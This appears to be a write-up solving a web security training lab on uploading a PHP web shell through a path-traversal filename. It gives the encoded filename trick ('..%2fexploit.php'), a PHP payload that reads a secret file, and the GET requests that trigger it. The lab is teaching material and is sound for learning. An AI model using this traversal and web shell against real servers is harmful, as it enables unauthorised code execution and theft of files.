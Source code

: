 # Web shell upload via path traversal
# Objective
 This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis

### Upload request example

|![](Images/image-10.png)|
|:--:| 
| *Normal upload request* |
|![](Images/image-11.png)|
| *Path to uploaded file* |

### PHP payload upload test
Application prevents from file execution in user-accessible directories.

|![](Images/image-12.png)|
|:--:| 
| *Successful PHP payload upload* |
|![](Images/image-13.png)|
| *PHP payload was not executed* |

## Exploitation
Exploit file was uploaded to `../` directory. In this way attacker can bypass above mentioned restriction and execute payload on the server.

Filename:
```
URL Decoded: filename="../fexploit.php"
URL Encoded: filename="..%2fexploit.php"
```

Payload `exploit.php`:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

|![](Images/image-14.png)|
|:--:| 
| *Successful PHP payload upload* |
|![](Images/image-15.png)|
| *Path to uploaded file* |
|![](Images/image-16.png)|
| *Triggering uploaded PHP file* |

`GET` request to both of these destination is able to trigger payload:
```
GET /files/avatars/../exploit.php
GET /files/exploit.php
```